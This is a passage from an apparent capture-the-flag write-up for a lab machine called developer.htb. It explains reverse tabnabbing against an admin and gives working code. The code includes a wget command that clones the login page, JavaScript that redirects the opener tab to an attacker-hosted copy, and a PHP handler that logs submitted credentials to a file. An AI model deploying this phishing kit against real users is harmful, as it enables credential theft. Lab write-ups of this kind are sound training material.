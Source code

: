 The goal here will be to host a page so that when the admin clicks on the link, it open in a new tab that’s now visible. The JavaScript in that tab will reverse tab-nab the original tab to send it to another page and that page is cloned `http://developer.htb/accounts/login/` page hosted on our server and when the admin is done reading my page and comes back, they’ll think they’ve been logged out for some reason, and log in again we get his creds.

### setup tabnap phishing page

Clone login page and save it as `login.html`
```bash
wget http://developer.htb/accounts/login/
```

Create a `writeup.html` file and put this script.
```html
<html>
  <body>
    <script>
    if (window.opener) window.opener.parent.location.replace('http://{tun0}/accounts/login/');
    if (window.parent != window) window.parent.location.replace('https://{tun0}/accounts/login/');           
    </script>
  </body>
</html>
```

Finally, Create a `index.php` file to handle requests.
```php
<?php

$request = $_SERVER['REQUEST_URI'];

switch ($request) {
    case '/accounts/login/' :
        $method = $_SERVER['REQUEST_METHOD'];
        if ($method == 'POST'){
            header('Location: http://developer.htb/accounts/login/');
            $file = fopen("log.txt", "a");
 
            foreach($_POST as $variable => $value) {
                fwrite($file, $variable);
                fwrite($file, "=");
                fwrite($file, $value);
                fwrite($file, "\r\n");
            }
            
            fwrite($file, "\r\n");
            fclose($file);
            exit;
        } elseif ($method == 'GET'){
            require __DIR__ . '/login.html';
            break;
        }
    case '/writeup' :
        require __DIR__ . '/writeup.html';
        break;
    default:
        http_response_code(404);
        break;
}
?>
```
